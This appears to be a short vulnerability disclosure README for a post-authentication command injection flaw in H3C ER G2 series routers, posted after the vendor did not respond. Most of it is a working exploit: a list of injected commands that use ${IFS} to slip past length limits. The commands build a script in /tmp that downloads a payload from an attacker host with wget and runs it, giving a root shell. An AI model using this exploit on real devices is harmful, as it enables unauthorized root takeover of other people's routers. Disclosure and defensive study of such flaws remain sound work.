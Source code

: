 The bug affects the H3C ER G2 series routers.   
I reported the bug several months ago and H3C didn't reply me... SO...

## BUG
The bug is a post-cmdi, but need a trick to exploit it.   
<img src="cmdi.png">
The length of string to injection is limited and no curl cmd to use, so we can't use normal exploit way such as wget xxx and chmod xxx and then xxx.   
We can print the cmd to a file and then to execute it.
```
cmds = ["echo${IFS}-n${IFS}'wget${IFS'>>/tmp/a", 
        "echo${IFS}-n${IFS}'}-O${IFS}'>>/tmp/a",
        "echo${IFS}-n${IFS}'/tmp/x${I'>>/tmp/a",
        "echo${IFS}-n${IFS}'FS}http:/'>>/tmp/a",
        "echo${IFS}-n${IFS}'/192.168.'>>/tmp/a",
        "echo${IFS}'1.2:8888/a'>>/tmp/a",
        "/bin/sh${IFS}/tmp/a",
        "/bin/sh${IFS}/tmp/x"]
```
And you can get a shell with root-privilege.

